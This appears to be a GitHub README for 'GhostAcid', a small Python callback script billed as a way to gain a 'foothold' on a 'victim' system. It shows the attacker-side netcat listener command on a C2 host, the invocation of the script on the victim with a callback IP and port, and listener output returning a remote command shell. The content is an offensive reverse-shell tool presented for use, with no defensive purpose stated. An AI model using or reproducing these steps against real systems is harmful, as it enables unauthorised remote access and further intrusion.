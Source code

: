 # GHOSTACID

GhostAcid is a very simple callback script designed to work with a ncat listener.  It should allow the user to get a foothold onto a system and allow for further recon and enumeration.

#### On your C2

Set up a simple netcat listener for incomming connections

```bash
nc -lvvp 8080
```

#### On your victim

Simply call the script and pass your callback IP and port

```python
./ghostacid.py -i 127.0.0.1 -p 8080
```

#### The callback

Your netcat listener will return with a command shell from your victim

```bash
Listening on [0.0.0.0] (family 0, port 8080)
Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 56034)
ubuntu@localhost /home/ubuntu/workspace/ghostacid $
```